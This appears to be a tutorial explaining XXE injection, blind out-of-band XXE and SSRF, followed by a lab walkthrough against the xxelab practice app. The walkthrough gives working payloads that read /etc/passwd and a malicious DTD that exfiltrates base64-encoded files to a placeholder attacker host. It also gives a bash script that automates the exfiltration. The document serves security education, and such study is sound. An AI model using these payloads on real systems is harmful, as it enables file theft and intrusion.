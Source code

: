 When we talk about XML External Entity (XXE) Injection, what we are referring to is a security vulnerability in which an attacker can use malicious XML input to access system resources that would not normally be available, such as local files or network services. This vulnerability can be exploited in applications that use XML to process input, such as web applications or web services.

An XXE attack generally involves the injection of a malicious XML entity into an HTTP request, which is processed by the server and can result in the exposure of sensitive information. For example, an attacker could inject an XML entity that references a file on the server system and obtain sensitive information from that file.

A common case where attackers can exploit XXE is when the web server does not properly validate the XML input it receives. In this case, an attacker can inject a malicious XML entity that contains references to system files that the server has access to. This can allow the attacker to obtain sensitive system information, such as passwords, usernames, API keys, among other confidential data.

It should be noted that sometimes XML External Entity (XXE) Injection attacks do not always result in the direct exposure of sensitive information in the server response. In some cases, the attacker must "go in blind" to obtain sensitive information through additional techniques.

A common way to "go blind" in an XXE attack is to send specially crafted requests from the server to connect to an externally defined Document Type Definition (DTD). The DTD is used to validate the structure of an XML file and may contain references to external resources, such as files on the server system.

This "go blind" approach to an XXE attack can be slower and more labor intensive than a direct exploitation of the vulnerability. However, it can be effective in cases where the attacker has a general idea of the resources available on the system and wishes to obtain specific information without being detected.

Additionally, in some cases, an XXE attack can be used as an attack vector to exploit an SSRF (Server-Side Request Forgery) vulnerability. This attack technique can allow an attacker to scan internal ports on a machine that are normally protected by an external firewall.

An SSRF attack involves sending HTTP requests from the server to internal IP addresses or ports on the victim's network. The XXE attack can be used to trigger an SSRF by injecting a malicious XML entity containing a reference to an internal IP address or port into the server's network.

By successfully exploiting an SSRF, the attacker can send HTTP requests to internal services that would otherwise be unavailable to the external network. This can allow the attacker to obtain sensitive information or even take control of internal services.

# Example

----
> The source to test the example below can be found here: [xxelab](https://github.com/jbarone/xxelab).
----

In this example we are going to check with **BurpSuite** the HTTP request sent when I clicked the 'Create Account' button. The request contains the following data:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<root>
		<name>
			Loki
		</name>
		<tel>
			333333333
		</tel>
		<email>
			loki@gmail.com
		</email>
		<password>
			loki123
		</password>
	</root>
```

And the response says `Sorry, loki@gmail.com is already registered!`. As we can see, it shows us the email that we entered earlier, so we can try to leak information trough this.

We can create the following XML entity like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
	<root>
		<name>
			Loki
		</name>
		<tel>
			333333333
		</tel>
		<email>
			<!-- We call the entity here to show the data requested in the DTD -->
			&myFile;
		</email>
		<password>
			loki123
		</password>
	</root>
```

Sometimes, the wrapper 'file://' is hard to compile, to make this much better we can convert it to **base64** and then, decode it:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
	<root>
		<name>
			Loki
		</name>
		<tel>
			333333333
		</tel>
		<email>
			<!-- We call the entity here to show the data requested in the DTD -->
			&myFile;
		</email>
		<password>
			loki123
		</password>
	</root>
```

Maybe the webpage does not allow us to process entities. In this case we should try **XXE OOB Blind**. This time we will run a local server en Python, where we will receive the server response, we will create a new local .dtd file and we will acess to it like in webpage DTD:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://{IP}/malicious.dtd"> %xxe;]>
```

The 'malicious.dtd' file will contain the following:

```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> <!-- In this case we will get the /etc/passwd file encoded in base64 -->
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://{IP}/?file=%file;'>">
%eval;
%exfil;
```

We can also automate this via script:

```bash
#!/bin/bash

echo -ne "\n[+] Introduce el archivo a leer: " && read -r myFilename

malicious_dtd="""
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$myFilename\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://{IP}/?file=%file;'>\">
%eval;
%exfil;
"""

echo $malicious_dtd > malicious.dtd

python3 -m http.server 80 &>response &

PID=$!

sleep 1; echo

curl -s -X POST "http://localhost:5000/process.php" -d'<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://{IP}/malicious.dtd"> %xxe;]>
<root><name>Loki</name><tel>333333333</tel><email>loki@gmail.com;</email><password>111222333</password></root>' &>/dev/null

cat response | grep -oP "/?file=\K[^.*\s]+" | base64 -d

kill -9 $PID
wait $PID 2>/dev/null

rm response 2>/dev/null
```